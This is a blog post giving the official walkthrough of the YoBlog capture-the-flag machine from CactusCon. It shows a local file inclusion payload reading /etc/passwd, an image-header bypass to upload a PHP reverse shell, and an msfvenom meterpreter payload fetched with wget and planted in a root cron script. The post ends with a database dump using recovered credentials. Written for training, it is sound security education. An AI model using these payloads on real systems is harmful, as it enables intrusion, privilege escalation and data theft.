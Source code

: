 ```yaml
---
layout: post
title: "YoBlog CactusCon CTF Walkthrough"
date: 2016-05-16 16:37:41
image: '/assets/img/'
description: CactusCon's Root-The-Box Writeup
tags: CactusCon CTF Root-The-Box
categories: CactusCon CTF
twitter_text: Check out The offical Yo-Blog Walkthrough
---
```

So, you’ve competed in the YoBlog Root-the-box challenge and you want to know the official answer? Well you’ve come to the right place! I am the creator of the YoBlog challenge and here is the official walkthrough. You can run the challenge locally (VirtualBox) by downloading the ova:

[Download OVA](https://www.dropbox.com/s/2rcvglcysftjkk3/yo-blog_Release_0.9.6.ova?dl=0)

Flag One - /etc/passwd
=======================

When you first visit the YoBlog homepage, you are greeted with a banner, some articles, and a theme button.

![Home](/assets/img/ctf/yoBlog/Home.png) 

When the theme button is clicked, the user is given a few choices in color. If “White” is selected, the source will change from:

```html
<body>
```

To:

```html
<body style="background-color: rgb(255, 255, 255);">
```

Another interesting tidbit to note is that the URL changes from “http://yo.blog/index.php” to “http://yo.blog/index.php?theme=white.php” The “.php” shows us that to change the theme, a file might be loaded. Let’s try giving it a system file and see what happened! Navigate to the following URL:

http://yo.blog/index.php?theme=../../../../../../../etc/passwd

Since the code loads the page in the middle on an HTML element, the home page will not change. However, by looking in the source, it is possible to view /etc/passwd:

![Home](/assets/img/ctf/yoBlog/ViewSourceEtcPasswd.png) 

Flag Two – Admin Panel
======================

To find the next flag, you need to discover the admin portion of the page. Many pentesters will use dirbuster to find all the contents, but I’m a fan of using the Burp Content Discovery tool for this (I call it BurpBuster). To use Burp, just capture a request with the proxy, add the target to your scope, in the target tab right click the host, hover over engagement tools, and click “Discover Content”

![Burp Buster](/assets/img/ctf/yoBlog/burpbuster.png) 

This should discover admin.php:
 
![admin page found](/assets/img/ctf/yoBlog/content.png) 

Visiting this page should give you the following login page:
 
![admin page](/assets/img/ctf/yoBlog/adminlogin.png) 

There are two official ways to get the password:

1. Brute force 
2. Using the LFI to view the admin page. 

## Brute Force

To find the password using the brute force method, all that needs to be done is import a password list into burp (I used the common-roots.txt in the metasploit-jtr folder). After intruder is properly configured and the attack is complete, you will notice the password “qwerty” loaded the admin page:

![Brute Force](/assets/img/ctf/yoBlog/adminpassword.png)

## Using the LFI

The more badass way of obtaining the password is to use the LFI vulnerability that was found on the home page. By visiting the following URL, it is possible to look into the source of the admin.php file:

http://yo.blog/index.php?theme=../admin.php
 
![admin page found](/assets/img/ctf/yoBlog/adminsource.png) 

In the source, the username is “admin” and the password is “qwerty”

Once you get access to the admin page, there will be a flag waiting for you:
 
![admin flag](/assets/img/ctf/yoBlog/adminflag.png) 

Flag Three – Upload a shell
============================

The admin page contains user statistics and a suspect upload page. The route to get a shell is to upload a php-shell and execute it by visiting the page. I am using pentestmonkey’s php-reverse-shell ([Reverse PHP Shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)) However, when uploading a shell, the site returns the following error:

![Error](/assets/img/ctf/yoBlog/ImageError.png) 
 
Using the LFI from the home page, you can gather that the code to check the image is the following:

```php
if(exif_imagetype($_FILES['userfile']['tmp_name']))
```

Php mentions that “exif_imagetype() reads the first bytes of an image and checks its signature.” ([exif-imagetype](http://php.net/manual/en/function.exif-imagetype.php)). To bypass this all that needs to be done is add the magic numbers ([wiki](https://en.wikipedia.org/wiki/List_of_file_signatures)) to the shell file. The simplest way to do this is cat an image and the php shell together:

```bash
cat random_image.png php-reverse-shell.php > reverse_shell.php
```

Once the reverse_shell.php file is upload we get a message that reads:
 
![Uploaded Shell](/assets/img/ctf/yoBlog/uploadedShell.png) 

Once a ncat listener is started, visiting the page returns a shell:
  
![PHP Reverse Shell](/assets/img/ctf/yoBlog/phpShell.png) 

The flag can be found in /flag/www-data.txt

![WWW Flag](/assets/img/ctf/yoBlog/wwwFlag.png) 
 
Flag Four - Getting Root
=========================

If you paid attention to the blog posts, you will have noticed that the admin has made a few bad security choices:

1. “sudo crontab -u root –e” 
	* created a cronjob as root
2. “sudo chmod 777 /myScripts/cleanDesktop.sh” 
	* 777’d the script that the cronjob runs
3. “Once nano opens, add the following line to the end…” 
	* Used nano (ok, I admit this isn’t a security issue)

This should give enough clues to figure out that to get root, the cronjob needs to run a malicious script. I chose to use meterpreter:

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.100 LPORT=4444 -f elf > shell.elf
```

Next, I start a simple http server:

```bash
python -m SimpleHTTPServer 80
```

and make the script executable:

```bash
chmod 777 shell.elf
```

And wget the script from the vulnerable server:

```bash
wget http://10.0.0.100/shell.elf
```

Next step is to start metasploit:
 
![msfconsole](/assets/img/ctf/yoBlog/startMetasploit.png) 

And finally, add the line to run the script into the cron script:

```bash
echo "/tmp/shell.elf" >> cleanDesktop.sh
```

Once the cronjob executes, we get a root meterpreter shell!

![Root Flag](/assets/img/ctf/yoBlog/rootFlag.png) 
 
Flag Five – Connect to the Database
====================================
Once you have root, the next step would be to dump the database. In the /var/www/html folder there is a file called db_connect.php. Within this file, you can find a password for the database:

```php
$servername = "localhost";
$username = "root";
$password = "yoDawg123()";
$db = "blog";
```

Using the username and password, you can run mysqldump to get every table and database:

```bash
mysqldump -u root -pyoDawg123\(\) --all-databases > db.sql
```

and finally, looking through the sql file, it is possible to get the database flag:

```sql
INSERT INTO `flags` VALUES (1,'admin','897df6fa0250adb72a8acb64dcfa0293','Flag in /admin.php'),(2,'hidden','5b08478093ff4ef1672238ecc53908f0','APPLY @ EARLY WARNING');
```

If you find challenges like this fun, come and apply at Early Warning:
[securityjobs.earlywarning.com](securityjobs.earlywarning.com)
